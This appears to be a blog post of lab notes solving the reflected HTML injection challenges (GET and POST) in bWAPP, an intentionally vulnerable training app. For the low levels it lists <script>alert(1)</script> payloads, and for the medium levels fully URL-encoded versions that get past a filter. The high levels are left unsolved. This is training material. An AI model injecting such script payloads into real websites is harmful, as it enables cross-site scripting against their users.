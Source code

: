 ```yaml
---
layout: post
title: bwapp
slug: bwapp
name: bwapp
---
```


# bwapp

## A1 HTML injection - Reflected (GET)

### low

{% highlight html %}

First name: <script>alert(1)</script>
Last name: <script>alert(2)</script>

{% endhighlight #}

### medium

{% highlight html %}
First: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
Last: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%32%29%3c%2f%73%63%72%69%70%74%3e
{% endhighlight %}

### high

??

## A1 HTML Injection - Reflected (POST)

### Low: 

{% highlight html %}
First: <script>alert(1)</script>
Last: <script>alert(1)</script>
{% endhighlight %}

### Medium:

{% highlight html %}
First: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
Last: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%32%29%3c%2f%73%63%72%69%70%74%3e
{% endhighlight %}

### High:
